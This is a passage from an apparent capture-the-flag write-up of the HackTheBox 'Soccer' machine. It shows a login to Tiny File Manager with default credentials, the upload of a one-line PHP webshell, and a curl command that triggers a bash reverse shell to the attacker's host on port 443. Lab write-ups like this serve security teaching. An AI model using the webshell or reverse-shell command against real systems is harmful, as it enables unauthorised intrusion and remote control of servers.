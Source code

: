 That gives two sets of default credentials, "admin" / "admin@123" and
"user" / "12345". Both sets of creds work here. I'll log in as admin.

### Tiny File Manager

Logged in, the page show the files that are part of the Soccer website:

![](/img/image-20230604142515207.png)

The URL is `http://soccer.htb/tiny/tinyfilemanager.php?p=`, which shows
that the server is running PHP.

The `tiny` directory has the filemanager page, as well as the `uploads`
directory:

![](/img/image-20230604142608344.png)

`uploads` is empty:

![](/img/image-20230604142623505.png)

### Shell

I'll make a simple PHP webshell:



    <?php system($_REQUEST["cmd"]); ?>



I'll use the "Upload" button, and it offers a way to upload:

![](/img/image-20230604142956658.png)

If I try to upload in `/var/www.md/`, it fails:

![](/img/image-20230604143018728.png)

If I navigate to `/tiny/uploads` and then click "Upload", it works:

![](/img/image-20230604143115422.png)

The webshell provides execution:



    oxdf@hacky$ curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=id'
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



I'll start `nc` listening on 443 on my host, and trigger a reverse shell
by sending a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw):



    oxdf@hacky$ curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261"'
